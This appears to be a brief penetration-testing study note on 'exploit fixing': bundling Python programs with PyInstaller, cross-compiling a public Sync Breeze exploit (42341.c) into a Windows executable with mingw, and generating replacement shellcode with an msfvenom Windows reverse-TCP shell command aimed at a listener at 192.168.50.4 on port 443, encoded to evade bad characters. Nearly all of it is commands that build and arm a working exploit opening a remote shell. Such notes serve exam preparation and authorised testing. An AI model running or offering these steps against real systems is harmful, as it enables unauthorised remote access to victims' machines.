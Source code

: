# Exploit Fixing

## Python Installer

* No cross compilation
* Bundles pyhton program for the platform with dependencies 

```bash
pip install -U pyinstaller
pyinstaller your-program.py
```

## Cross-Compilation

* Compile Windows Programs on Linux 

* compiler
* input file
* -o output file
* -l link libraries e.g. windows sock

```bash
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

gcc linux-42341.c syncbreeze
./syncbreeze

# not working on kali arm64 apple
#sudo dpkg --add-architecture i386
#sudo apt update
#sudo apt install winehq-stable
#wine syncbreeze_exploit.exe
```

Replace SHELL CODE

* -e x86 platform encoder 
* -f c source output


```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```